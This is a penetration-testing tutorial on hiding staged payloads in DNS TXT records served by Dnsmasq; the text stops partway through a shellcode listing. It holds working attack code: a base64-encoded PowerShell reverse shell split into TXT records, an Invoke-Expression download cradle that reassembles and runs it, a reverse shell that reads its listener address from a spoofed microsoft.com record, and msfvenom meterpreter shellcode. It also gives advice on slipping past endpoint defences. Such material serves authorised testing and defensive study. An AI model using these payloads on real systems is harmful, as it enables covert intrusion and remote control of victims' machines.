# PT Phone Home

As penetration testers, we often come up with creative methods to deliver and execute our payloads, such as _staged payloads_. A staged payload contains just enough code to call back to a system under our control and retrieve the remaining code necessary for us to complete our task, such as to establish a reverse shell. One of the more common frameworks for this that most of us have become accustomed to using staged payloads with is the _Metasploit Framework_.

The concept of a staged payload is very useful and can be incorporated into various other strategies to prevent embedding too much information. This becomes equally as important when the more common techniques keep getting busted by various endpoint defenses. 

What I'm looking to impart unto you are techniques you can employ to create your own methods to deliver staged payloads, right from Kali Linux. We will kick this off by demonstrating how you can accomplish this through DNS.

## DNS Smuggling

* DNS Server
* TXT Records
* Chunking Payloads
* Staged Listener
* Staged Shellcode
* Staged Scripts

One of the benefits of DNS is that it’s a protocol that is nearly a guarantee to be accessible through an endpoint firewall. Although it’s expected for a specific set of DNS servers to be configured on a client, it’s not all that common for DNS traffic to be explicitly restricted to that same set of configured servers. In addition to this, it's equally as uncommon for local DNS traffic to be monitored when it doesn't go through this set of servers. 

This makes DNS a valuable tool for us to use to our advantage as we can use it to host DNS records that contain data we can incorporate into our payloads. In particular, we'll demonstrate three different types of staged payloads we can stage in DNS, a listener address, shellcode and even an entire script.

### DNS Server

One of the ways we can have a DNS server run on Kali Linux is through the use of _Dnsmasq_. Dnsmasq is a lightweight utility that’s able to provide both DNS and DHCP services. This utility contains a simple conf file and for our purposes will be trivially smaller than most configurations. 

Let's kick this off by installing Dnsmasq on our Kali machine. Once the package has finished installing, we'll make a copy of the default conf file in case we need to fall back to it.

```
┌──(kali㉿kali)-[~]
└─$ sudo apt install dnsmasq -y

┌──(kali㉿kali)-[~]
└─$ sudo cp /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
```

We’re going to work off of the original file vs creating a blank config file as it contains helpful comments that will help explain other configuration items in the event you want to expand upon your implementation.

For this stage of our setup, we are going to focus on four configurable settings. These settings will help keep our implementation lean and ensure that any of our DNS requests do not get forwarded to any upstream servers, which could bust us.

| Configuration | Description |
| :------------ | :---------- |
| no-resolv | Do not obtain upstream DNS servers from /etc/resolv
| listen-address | The address(es) to listen on for DNS requests
| no-hosts | Do not obtain any configured hosts in /etc/hosts
| log-queries | Log every DNS request and reply that’s processed

These settings already exist within the default _dnsmasq.conf_ file but are commented out. To enable them, simply remove the _#_ next to the applicable line. Of these settings, the only one that expects a value is _listen-address_. For this setting, we’ll assign two ip addresses, the _loopback address_ for testing and the ip address of our Kali Linux machine.



After we finish applying our settings, we’ll save the file and do a quick spot check.



Things are looking good enough for us to try to start up our server. Instead of enabling Dnsmasq as a service, we'll manually run Dnsmasq with the _-C_ and _-d_  parameters to declare the path to our config file and instruct it to run in debug mode. Running Dnsmasq in debug mode helps us out by being able to see DNS requests/replies as well as any errors that may occur for troubleshooting from the terminal.



If everything is working as intended, we should be able to issue a DNS request using _dig_ and designating the loopback address as the server. If we divert our attention over to the terminal where we have Dnsmasq running, we’ll see the DNS request for the A record of `canyouseeme`. Since this isn’t known to Dnsmasq, you’ll see a config error of REFUSED, which is fine.



Excellent, we have a functioning DNS server running on our Kali Linux machine. Our next step is where it starts getting fun, where we configure DNS records that contain data for our payloads.

### TXT Records

At a very simplified level, a DNS server is used to map names to IP addresses through records assigned to a DNS server. The more commonly known DNS records are MX, NS and A records. However, for our objective, we’re going to use TXT records, which is a record that can contain up to 255 characters of text.

TXT records are frequently used for sender policy framework (SPF) records as well as for domain verification purposes. Domain verification is when a vendor wants an administrator to prove they own a given domain before being incorporated into a service by having the admin publish a uniquely assigned value to a TXT record for the domain which can be easily retrieved and verified. We’ll use these TXT records to host arbitrary payloads that we can retrieve through DNS requests.

In order to add a TXT record to our Dnsmasq instance we’ll need to add them to our config file. An example of a TXT record already exists in our conf file, starting with `#txt-record=`.

This entry requires two components, the domain name that contains the record and the value itself. To demonstrate this, we’ll add the following record to our conf:



Keep in mind that because this is our DNS server, the domain name can be anything we want. You can make it something fun for testing, or something that appears legitimate for an added level of stealth in the event the traffic is being monitored.

After we add the new setting, we’ll need to restart our Dnsmasq instance and use _dig_ again to retrieve the TXT record for _tristram.pwn_. If we look back at our terminal running Dnsmasq we’ll also see the query and response that was sent back to the client.



Now we’ll take this a step further by replacing our TXT record with the PowerShell cmdlet _Get-Service_, that we'll retrieve and execute from our victim machine.



We will retrieve this record on our victim machine through the use of the _Resolve-DnsName_ cmdlet.  We will then access the _Strings_ property which will contain the TXT record value that’ll pass to _Invoke-Expression_, ultimately resulting in the execution of the cmdlet we stored in the TXT record.

```powershell
PS C:\> Invoke-Expression $((Resolve-DnsName -Name tristram.pwn -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings)
Status   Name               DisplayName
------   ----               -----------
Stopped  AarSvc_736e5       Agent Activation Runtime_736e5
Stopped  AJRouter           AllJoyn Router Service
```

In the event the machine doesn't have this cmdlet available, we can use the native _nslookup_ command instead, with some added formatting to extract our data. 

```powershell
PS C:\> iex ((nslookup -type=TXT tristram.pwn 192.168.0.21)[5]).replace('"','').trim()
Status   Name               DisplayName                      
------   ----               -----------                           
Stopped  AarSvc_736e5       Agent Activation Runtime_736e5        
Stopped  AJRouter           AllJoyn Router Service
```

Great, now we have a functioning DNS server that we can use to host TXT records. While storing small values is relatively straightforward, we’ll need to try harder if we want to incorporate larger payloads.

### Chunking Payloads

Payloads will vary in size depending on what you're trying to accomplish. While it's easy to work with payloads that are under the 255 character size threshold, you could easily exceed that limit if you end up encoding your payload. In those cases, we will need to split them up into individual records that encompass the entire payload instead.

Let's take a look at how we would handle payloads that exceed the threshold by using a base64 encoded reverse shell.

```
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADAALgAyADEAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

We need to split this into individual records that contain no more than 255 characters, or any other value that doesn't exceed the size threshold. This is trivial to accomplish, but if our payload is split into numerous records, we'll need a way to dynamically retrieve our entire payload. One way for us to facilitate this is to register a TXT record that contains the total number of records that make up our entire payload. In addition to this, for every subsequent record, we'll prepend its domain name with the corresponding chunked payload position.

This is a bit of a pain to do manually, so we'll use a simple helper function called `Format-StringToTxtRecord`. This function will split our payload based on our designated number of characters and convert them into individual TXT records for us to include in our conf file. 

```powershell
PS C:\> $String = 'JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADAALgAyADEAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
PS C:\> Format-StringToTxtRecord -String $String -Name tristram.pwn -Characters 255
txt-record=1.tristram.pwn,"JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADAALgAyADEAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGE"
txt-record=2.tristram.pwn,"AbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7AC"
txt-record=3.tristram.pwn,"QAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlA"
txt-record=4.tristram.pwn,"HgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4"
txt-record=5.tristram.pwn,"AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB"
txt-record=6.tristram.pwn,"1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
txt-record=tristram.pwn,"6"
```

Now that our payload has been properly formatted to work in our config file, let’s break down exactly what we're working with. 

We have a single TXT record for _tristram.pwn_ that contains the value `6`. This tells us that we have 6 other records that make up our entire payload. To retrieve these records, we know that we need to make a DNS request to 1.tristram.pwn, 2.tristram.pwn, respectively. Once we do, we need to concatenate them to form our entire encoded payload.

Let’s get our DNS server setup so we can try this out. We’ll start by copying our generated config setting into our Dnsmasq conf and restart the service. The order these records go into the file will not matter. 

At this point our config file looks like this:

```
┌──(kali㉿kali)-[~]
└─$ grep "^[^#]" /etc/dnsmasq.conf       
No-resolv
listen-address=127.0.0.1,192.168.0.21
No-hosts
txt-record=1.tristram.pwn,"JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADAALgAyADEAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGE"
txt-record=2.tristram.pwn,"AbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7AC"
txt-record=3.tristram.pwn,"QAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlA"
txt-record=4.tristram.pwn,"HgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4"
txt-record=5.tristram.pwn,"AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB"
txt-record=6.tristram.pwn,"1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
txt-record=tristram.pwn,"6"
log-queries
```

From our victim machine we will turn the _Resolve-DnsName_ cmdlet into a download cradle that will retrieve the number of chunks, the subsequent chunks and join them together to form a string. Once the string has been formed, we will decode and execute it from our victim machine.

```powershell
PS C:\> Invoke-Expression (([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($((1..$((Resolve-DnsName -Name tristram.pwn -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.tristram.pwn') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) -join '')))))
```

If we go back to our terminal, we'll see the individual TXT lookups and a successful reverse shell.



Now that we know how to handle TXT records for larger payloads, the potential for more complex payloads is well within our grasp. Next we’ll take a look at staging a listener address.

### Staged Listener

Keep in mind that large TXT records may stick out like a sore thumb, but not all payloads need to be huge. We can use the techniques we have learned to inject a simple payload such as a listener address into a simple reverse shell.

We'll start off by creating a new TXT record, but will switch out our previous usage of _tristram.pwn_ with _microsoft.com_. This domain will contain a TXT record that contains the listener ip and port of our attacker machine in a `IP,PORT` format. By configuring the record with a reasonably looking name, it may not be immediately recognized as malicious.



Now we'll look at our reverse shell from earlier, which has been decoded and split for readability. What makes this payload different now is that we'll include a DNS request for the TXT record of _microsoft.com_ that is stored on our DNS server and store it in a variable. We’ll then use this variable as the input for the IP and port argument for our TCPClient by splitting the string into an array and specifying the corresponding index. 

```powershell
$DNS = (Resolve-DnsName -Name microsoft.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings
$client = New-Object System.Net.Sockets.TCPClient($DNS.split(',')[0],$DNS.split(',')[1]);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close()
```

Once we execute this payload and return to our terminal, we'll see the TXT lookup for _microsoft.com_ followed by a successful reverse shell.



Although simple, we were able to prevent hardcoding our listener address information within the payload itself by retrieving it through a DNS lookup.

### Staged Shellcode

Now we will take a look at using this technique to retrieve shellcode. In this scenario, we will use a PowerShell shellcode runner that will call out to our DNS server for the shellcode that needs to be executed. Let's start off by generating our shellcode with _msfvenom_.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.21 LPORT=443 EXITFUNC=thread -f ps1
```

We will reuse our `Format-StringToTxtRecord` helper function to chunk our shellcode into individual TXT records that we’ll insert into our config file and restart Dnsmasq.

```
PS C:\> $String = '0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x4d,0x31,0xc9,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd,0x0,0x0,0x0,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x30,0x2e,0x32,0x31,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x1,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x